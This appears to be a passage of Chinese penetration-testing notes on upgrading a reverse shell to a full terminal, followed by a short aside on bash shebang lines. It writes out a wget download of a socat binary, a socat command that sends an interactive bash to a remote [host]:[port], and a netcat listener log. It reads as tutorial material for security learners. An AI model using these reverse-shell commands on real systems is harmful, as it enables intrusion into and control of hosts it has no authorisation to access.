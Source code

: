 目标机：

```
# 把socat上传到目标机器上或者直接下载
$ wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat
# 运行
$ chmod +x /tmp/socat
$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:[host]:[port]
```

这种方式基本和ssh类似，ctrl+C也不会直接断开。

## script获取pty

我们可以使用 Linux 系统下的 `script` 命令，在弹回来的 shell 下创建一个带有 tty 的 shell, 这样就可以勉强使用一下 `top` 和 `vim`

```
$ script /dev/null
```

如果不加 `/dev/null` 的话，会在当前路径下生成一个名字是 `typescript` 的文件，记录着在 script 生命周期里你执行的所有命令和结果。

demo:

```bash
C:\Users\
λ nc -lvvp 4444
listening on [any] 4444 ...
connect to [192.168.2.134] from DESKTOP-IBUUT6H.lan [192.168.2.134] 30567
ubuntu@ubuntu:~$ tty
tty
not a tty
ubuntu@ubuntu:~$ script /dev/null
script /dev/null
Script started, file is /dev/null
ubuntu@ubuntu:~$ tty
tty
/dev/pts/1
```



## 小知识点总结——关于Linux中#!/bin/bash和#!/bin/sh的区别

#### #!

`#!`:是一个特殊的表示符，其后，跟着解释此脚本的shell路径。

除第一行外，脚本中所有以“#”开头的行都是注释。

- `#!/bin/bash`或`#!/bin/sh`只能放在第一行，如果后面还有#!(只要不是在第一行)，那么只能看成是注释。

  > 运行之前需要设置sh的运行权限`chmod 777 *`

- 当source命令执行有问题时，bash继续执行下面命令。

- 系统默认的shell是bash。
